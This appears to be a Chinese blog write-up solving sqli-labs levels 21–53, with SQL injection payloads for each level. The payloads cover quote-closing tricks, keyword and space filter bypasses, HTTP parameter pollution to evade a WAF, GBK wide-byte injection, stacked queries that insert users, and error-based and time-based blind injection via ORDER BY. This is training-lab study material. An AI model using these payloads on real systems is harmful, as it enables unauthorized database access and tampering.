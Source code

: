 ```yaml
---
layout: post 
title: "sqlilab做题总结（二）"
date: 2020-07-04
author: su29029
tags: Web
---
```


## sqlilab做题总结（二）

继续昨天的内容，今天的任务是Less21-Less53。

##### Less21-22

这两个题的提示是cookie注入，Less21的闭合方式是单引号加括号，Less22的闭合方式是双引号。全部采用联合查询注入即可。

##### Less23

Less23中注释无法使用，发现闭合方式是单引号，故可借助最后多出来的单引号在联合查询的最后一位进行闭合，payload如下：

```sql
?id=0' union select 1,2,'3  # 最后一个'3将结合原先sql语句中存在的单引号，实现闭合。
```

随后就是联合查询注入，不再赘述。

##### Less24

Less24是二次注入。这个题首先观察页面，发现有登录，注册页面。随意注册一个账号登录上去后发现有个登录后显示信息的页面，可以修改密码，可以退出登录。题目提示二次注入，考虑修改密码的逻辑，猜测修改密码的地方没有进行转义，尝试注册```admin' --```的用户，登录上去后修改密码，随后退出，使用admin用户名登录，密码为刚刚修改的密码，发现成功登录。

进行白盒测试，审计代码，发现登录后修改密码的逻辑中存在漏洞，获取的用户名是从session中获取的，且没有进行转义，这时如果注册了一个包含注入代码的username，这里获取到的username就会改变update语句的结构，造成二次注入。

##### Less25/Less25a

这两个题过滤了and和or，and可以通过&&绕过，or可以通过||绕过，其他的就正常操作即可。注意闭合方式。

##### Less26/26a

这两个题过滤空格和注释，注释可以通过巧妙闭合单引号来避免掉注释的使用，空格的绕过方法有以下几种，可以逐一尝试：

```
1./**/绕过，/**/相当于空格
2.%a0绕过，url编码时这个被正则表达式识别为中文字符，不会过滤，而mysql不能识别，不能识别的字符会变成一个空格。
3.巧用小括号(特定情况下)
```

这里通过%0a绕过即可。

##### Less27/27a/28/28a

这四个题过滤了union select.通过试验发现，可以通过任意位大小写，双写等方法绕过。其中Less27a整体过滤了union select这个词组，这里通过%a0(union%a0select)即可绕过。(对于注释和空格的过滤可继续使用上面提到的方法绕过)。

给一个这四个题全部绕过的payload(只需考虑不同的引号/括号闭合方式，以28a为例)：

```sql
?id=0')%a0unIOn%a0SElEct%a01,2,('3
```

##### Less29/30/31

这两个题提示WAF，但是自己做测试的时候并没有发现在哪里过滤什么东西了...直接联合查询好像没啥问题。后来看了别人的wp，发现了这里的特殊点：根据不同的Web服务器和应用服务器特性，在遇到相同参数时，读取的参数是不一样的(但是对这个题貌似没用诶....)

具体，例如```index.php?id=1&id=2```,如果是apache(php)服务器，将解析最后一个id参数，如果是tomcat(jsp)服务器，则解析第一个参数，Apache(Perl(CGI))解析第一个参数，Apache(python)全部获取，返回list。

这里有个问题，如果传入index.jsp?id=1&id=2,那么最终返回客户端的是哪个参数呢？答案是最后一个参数，因为最终为客户端提供服务的是web服务器，也就是Apache,Apache解析最后一个参数，故返回的是id=2。

这里的一个启发是，在实际的Web应用中，经常会遇到两层服务器的情况，而我们往往是在tomcat应用服务器层进行过滤，功能类似WAF。

而正因为解析参数的不同，我们此处可以利用该原理绕过 WAF 的检测。如 payload：index.jsp?id=1&id=0 or 1=1--+，tomcat 只检查第一个参数id=1，而对第二个参数id=0 or 1=1--+不做检查，直接传给了 apache，apache 恰好解析第二个参数，便达到了攻击的目的。

(这个操作的专业叫法是：HTTP参数污染攻击)

##### Less32/33

这两个题是get型宽字节注入。宽字节注入的原理是url编码将一个精心构造好的url编码字符传入，由于后台mysql设置GBK编码，php为GBK编码，函数执行的是添加ascii码，假如我们传入```%df'```,最终传入mysql的是%df%5c%27,其中%df%5c会被识别成一个宽字节，这时原本添加的\转义就被吃掉了，从而实现了注入的目的。

本题payload：

```sql
?id=0%df' union select 1,database(),3 %23
```

##### Less34

post型宽字节注入，将utf8转为utf16即可绕过。payload：

```
�' union select 1,database(),3#
```

##### Less35

数字型，escape函数没用，直接注入即可。

##### Less36

同Less33,%df宽字节注入。

##### Less37

同Less34,注意一下这次只有两列即可。

##### Less38-41

堆叠注入。指的是在某些情况下，后端的sql语句执行函数可以执行多条命令(例如mysqli_multi_query())，这个时候我们可以通过;来结束前一条sql语句，随后再在分号后面写入sql，从而实现“堆一堆”sql语句进行注入。而;后的语句理论上没有过滤的话则可以为所欲为。
不过堆叠注入利用的条件有限，因为一般情况下后台的sql执行函数为安全起见只允许执行单一sql，分号后的语句将会被忽略。

payload(注意引号闭合方式，此处以Less38为例):

```sql
1';insert into users(id,username,password) values (100,"a","b"); %23
```

##### Less42/43/44/45

这几个题均需在passwd处进行堆叠注入。42,43有回显，44,45无回显。payload:

```sql
1';insert into users(id,username,password) values (100,"a","b"); %23
```

##### Less46/47/48/49

order by注入，由于不在where语句位置，故无法使用联合查询注入，这里主要采用报错注入和盲注的方式。payload: 

```sql
Less46:sort=1 and updatexml(1,concat('~',database()),1) # 报错注入
Less47:sort=1' and if(ascii(substr(database(),1,1))=115,0,sleep (5)) %23
Less48:sort=1 and if(ascii(substr(database(),1,1))=115,sleep(5),0) %23
Less49:sort=1 and if(ascii(substr(database(),1,1))=115,sleep(5),0) %23
```

##### Less50/51/52/53

order by+堆叠注入。payload如下：

```sql
1';insert into users(id,username,password) values (500,"sss","dddd");%23
```

